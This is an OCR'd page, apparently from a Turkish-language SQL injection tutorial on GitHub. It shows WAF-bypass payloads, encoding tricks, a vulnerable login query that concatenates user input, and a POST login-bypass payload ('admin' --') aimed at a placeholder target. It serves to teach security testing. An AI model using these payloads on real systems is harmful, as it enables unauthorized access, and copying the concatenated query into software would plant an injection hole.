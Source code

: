 3. WAF ve Güvenlik Önlemleri Olan Sitelerde SQLi Testi
Bazı web siteleri güvenlik duvarı (WAF) veya filtreleme mekanizmaları kullanır. Bu durumda:
- Karakterleri Bypass Etme:
sql
```sql
id=5' --+
id=5'#
```
id=5" or "1"="1
- Encodings Kullanma:
URL Encoding (%27 yerine ')
Hex Encoding (0x31 yerine 1)
Base64 Encoding



## SQL Enjeksiyonu (SQLi) - POST Metodu Üzerinden Saldırı
POST tabanlı SQL Injection, kullanıcının girdiği verilerin HTTP POST isteği ile sunucuya gönderildiği durumlarda ortaya çıkar. Genellikle giriş formları, arama kutuları ve kullanıcı kayıt formları gibi yerlerde görülür.

1. POST SQL Injection Mantığı
Bir giriş formu düşünelim:
html
```html
<form action="login.php" method="POST">
<input type="text" name="username">
<input type="password" name="password">
<input type="submit" value="Login">
```
</form>

Eğer arka plandaki SQL sorgusu güvenli değilse, şu şekilde olabilir:
sql
```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```

Bu durumda, username veya password alanına zararlı SQL kodları enjekte edilebilir.

2. Manuel Olarak POST SQLi Testi
## Hedef Site: https://target.com/login.php
 POST Verisi:
plaintext
```sql
username=admin&password=123456
```

Test etmek için aşağıdaki zararlı girişler denenebilir:

- 1. Şifreyi Atlatma
Eğer uygulama doğrudan SQL sorgusuna değerleri ekliyorsa, şu gibi girişler ile kimlik doğrulama atlanabilir:
plaintext
```sql
username=admin' --
password=1234
```

